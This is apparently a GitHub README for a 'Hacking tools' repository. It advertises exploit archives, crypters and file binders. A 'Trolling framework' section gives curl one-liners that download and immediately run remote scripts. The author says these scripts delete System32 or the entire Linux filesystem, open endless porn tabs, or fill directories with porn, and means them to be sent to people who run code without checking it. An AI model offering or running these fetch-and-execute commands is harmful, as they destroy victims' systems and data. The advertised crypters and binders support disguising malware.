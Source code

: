 # Hacking tools
#### Penetration testing and ethical hacking toolkit.

##### 🛡 Exploitation - various archived CVE exploits

##### 🔑 Cryptography - encryption and decryption tools, cipher recognizing tools

##### 🕶 Anonymizing - proxy scrapers, tor scripts and openvpn configs

##### ⚙ Social engineering - forked social engineering framework, some other handy tools 

##### 💻 Hardware hacking - tutorials how-to do stuff like bad usb

##### 🗃 File manipulation - file binders, crypters and much more .net and others

##### 🛠 Reverse engineering - forked popular reverse engineering frameworks and links to professional courses

<a href="https://ibb.co/q5QLKhT"><img src="https://i.ibb.co/X8Rf16c/ezgif-com-gif-maker-1.gif" alt="ezgif-com-gif-maker-1" border="0"></a>
Psst, scroll down.

## Trolling framework
Build to make fun off script kiddies that will execute any code you send them without inspection, use for fun but do not harm.
These scripts are really poorly coded, but friend gave me 24 hours so Im trying to make as much as possible, expect improvement in the future.
This little 'project' was made because I wanted to excercise in as many languages as possible.

### Windows platform
#### 1 (C#) - Blank screen that you can remember from Async rat, I've made own and it doesnt break your pc when you restart it
```curl -sL https://github.com/TheDebianGuy/Hackingtools/blob/master/1/script.exe?raw=true -o script.exe & script.exe```
#### 4 (Python) - while True: webbrowser.open('https://pornhub.com'), with 4 threads it was able to break pc, lowered to 2 threads
```curl -sL https://github.com/TheDebianGuy/Hackingtools/blob/master/4/script.exe?raw=true -o script.exe & script.exe```
#### 5 (Golang) - Classic infinite messagebox with 'You have been hacked!' message
```curl -sL https://github.com/TheDebianGuy/Hackingtools/blob/master/5/script.exe?raw=true -o script.exe & script.exe```
#### 6 (Batch) - Deleting Sys32 😀
```curl -sL https://github.com/TheDebianGuy/Hackingtools/blob/master/6/script.bat?raw=true -o script.bat & script.bat```
### Linux platform
#### 2 (Node.js) - Downloads p0rn in every available directory (not compiled yet)
```curl -sL https://github.com/TheDebianGuy/Hackingtools/blob/master/2/script.js?raw=true -o script.js; node script.js```
#### 3 (Bash) - rickrolling while deleting whole filesystem, use when escaping feds, death to whoever launches this without looking at the code 😂
```curl -sL https://github.com/TheDebianGuy/Hackingtools/blob/master/3/script.sh?raw=true -o script; chmod+x script; ./script```
#### 4 (Python) - while True: webbrowser.open('https://pornhub.com'), with 4 threads it was able to break pc, lowered to 2 threads
```curl -sL https://github.com/TheDebianGuy/Hackingtools/blob/master/4/script.bin?raw=true -o script.bin; chmod+x script.bin; ./script.bin```
#### 7 (Java) - Blank screen, coming soon

